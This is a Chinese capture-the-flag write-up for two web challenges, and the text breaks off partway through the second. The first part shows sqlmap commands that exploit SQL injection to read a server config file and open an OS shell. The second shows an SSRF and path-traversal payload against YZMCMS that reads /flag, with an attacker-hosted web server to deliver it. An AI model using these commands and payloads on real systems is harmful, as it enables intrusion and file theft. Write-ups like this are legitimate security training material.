



纵横杯部分WEB题解
easyci
一道SQL注入题，大概思路：sql注入写入shell，读取flag文件。
sqlmap先读取”/etc/apache2/apache2.conf”内容。
1 | sqlmap -u http://eci-2ze0xe7juyhmgubdhea1.cloudeci1.ichunqiu.com/public/index.php/home/login --data "username=admin&password=1" -p username --technique B --dbms mysql --threads=10 --file-read="/etc/apache2/apache2.conf" |

发现绝对路径（/var/sercet/html）再写入shell
1 | sqlmap -u http://eci-2ze3qpk9e6qoggl1cuol.cloudeci1.ichunqiu.com/public/index.php/home/login --data "username=admin&password=1" -p username --technique B --dbms mysql --os-shell |
ezcms
参考文章：
YZMCMS V5.3后台 SSRF
Bug #76857 Can read “non-existant” files
这边主要是因为如果将不支持的协议的URL传递给文件系统
功能，则它们会将其视为本地文件路径,这边必须请求http或者https,所以构造一个httpssss即可。
远程vps利用python起一个web服务。
1 | python3 -m http.server 80 |

伪造文件
1 | <test123><a href="httppp://sdxcas.com/../../../../../../../../../../../../../flag">123</a></test123> |
测试读取
